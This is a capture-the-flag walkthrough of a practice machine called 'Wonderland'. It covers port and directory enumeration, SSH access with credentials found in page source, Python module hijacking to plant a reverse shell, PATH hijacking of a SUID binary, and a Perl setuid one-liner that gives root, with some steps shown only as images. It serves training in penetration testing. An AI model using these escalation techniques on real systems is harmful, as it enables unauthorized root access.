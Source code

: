 ![3c4c56bf1f55e12125b714d67f603646.png](:/c77e531aac4442aabea53633bb41b850)
# Wonderland

## 1.Enumeration 

Let's start with a simple nmap scan:

``` 
nmap -sC -sV -p- 10.10.4.217     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-27 11:53 CEST
Nmap scan report for 10.10.4.217
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.75 seconds

```

We have opened ports like port 22 (ssh) and port 80 (http).

***
## 2. Exploring the website

If we take a look on the website we can see the following:

![df727043034910fa3ce8476781008dba.png](:/2a0796b35e3b42d58300452c1d688e77)

Let's run gobuster in order to enumerate hidden directories. This is what I found:

```
gobuster dir -u http://10.10.4.217 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.217
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/27 12:01:50 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/r                    (Status: 301) [Size: 0] [--> r/]   
                                                         
===============================================================
2022/07/27 12:03:08 Finished
===============================================================
   
```

We have 3 directories "img", "poem" and "r". Of which, "poem" looks like a rabbit hole:

![cad70c3ed125d771739fcd525d3846ea.png](:/694ed3976819425382a3e1664d58f675)

In the other hand, if we have a look into the "r" directory, it seems like it invites us to keep enumerating:

![6b536586c575b835cb717e52b8093efe.png](:/566cbb1bb42d442fbe5286ec17109db7)

So I kept enumerating until i found this under "/r/a/b/b/i/t" directory:

![7006b717c87eecd353b6d843ee0e1aa0.png](:/5fbf552fc9124dadbc3f32ef9ac75124)

I took a moment to have a look the source code of that page and I found what it seemed like the ssh credentials for Alice!

![136668d0c8125f1f510e8556ab055ab4.png](:/81abc143fb6a4d34a1455120fcc69ebe)

***
## 3. Foot Hold

After finding the SSH credentials for Alice I decided to went right into the SSH server:

![860739501ddd60211a137f85aaee3c8c.png](:/28a7e8be891d4f388d9032265ee46a26)

This is actually funny, we can red the user flag inside the root's directory xD In this box, as the hint suggests, everything is upside down, meaning root.txt is in users’ home, and user.txt is in /root.

![7222d5d141c911696960874a72ae38b1.png](:/55b70dc766d444d78e359dc9905fd27e)

In Alice's home path I found the root flag (???) and a python script but, of course, I couldn't read the flag because I didn't have the rights as Alice:

![3a06a17c6eeb40448f187eff92468552.png](:/8fcfc70d5afa4f84be8f4f2fb18f739c)

So I focused into the python script. Basically, It has a large poem from which It pseudo-randomly takes 10 lines:

![ee75aa9918b8ddf9a4b32c4851552162.png](:/4b54e5f01b8945acb5854f01bfc74bd3)

Adittionaly, I saw that Alice could run this Python script with root privs:

![d690052a7962d54192fb0a50eebcc61b.png](:/ee8ce1c3bf5247a080b81189060093a8)

Python will look in the current working directory first for the module files before searching the specified Python library directories; so with that in mind, I created a file called random.py in the same directory. I used the IronHackers Python reverse shell:

![f97394d69d8675e39948f2e36916fc4b.png](:/6d0ab1c320394aaba33fafb6e4a123d2)

¡Important! Use the full path, otherwise it may throw an error about missing permissions.

![34db7ccb2c350cb8be421b877c3b5d07.png](:/791d2d0f24c3470c96b97911079a6c5d)

At this point I had managed to move laterally to another user:

![c6a87627f4f0643e274efc7b7efc2968.png](:/8b6d00e0eace46c4bf7bf753181b6120)

As always, upgrade the shell:

![20c9ed2f2cba748f05210d9c2dde268d.png](:/b8d0cb86d7af45b2b2a9abacffdfa12c)

The user directory has an executable file named teaParty owned by root with SUID permissions, so it’s definitely worth further investigation:

![dcadfb191a770d7f227e89577cd5ca1b.png](:/ef72134b3f4d424f9d7bf4a845c9a27d)

When I press the enter key, it immediately errors out with a “Segmentation fault” which sounds like an error with the memory:

![6485a3236092d323051d29d8c860022e.png](:/0a0a2471d26646a6b4584b96d19dcf00)

Using the strings command I found this interesting:

![2015f3fadad3fc8e24ba4e2f3a0dfb0d.png](:/b9ae44f7d8734139b329d26725162f89)

The key thing is that the date command is called with a specified path, that means that the shell will look through the $PATH variable for the file containing the data it wants to run. Knowing this, we can manipulate the path and have it point to our own crafted “date” command file instead of the original:

![63950f0511e845ffe1a6054aa7f049ac.png](:/1d858baf3496415eb21121e60f4972dd)

And we had managed to move laterally to "hatter"!!

On his working directory I found his password but unfortunately, he couldn't run sudo:

![2da93b9183a75be4bf17bf8ae1de1088.png](:/2b261c8db4f142e1a8352937f26b842c)

At this point, I set up a Python HTTP server on my machine and downloaded and ran Linpeas on our target machine:

![12119162c93646b94375aec0b0e9df8d.png](:/a27ab573f4be4552afc1c0ec1703b354)

Found exploitable Perl capabilities with LinPEAS:

![2397974232e99e78811355bd7d2c13de.png](:/cfa61ebf083d4d6ea0d763d87e52e976)

Since it’s a binary, let’s pull out our handy GTFObins page and give the provided commands a try:

![920c01ecf6525a2ebad87dc0b761894c.png](:/b9646477422841e9baa774ad79f21fb7)

```
hatter@wonderland:/$ /usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# whoami
root
# cd /home/alice
# cat root.txt
thm{thefinalflag}
```

And we're done! Congratz!
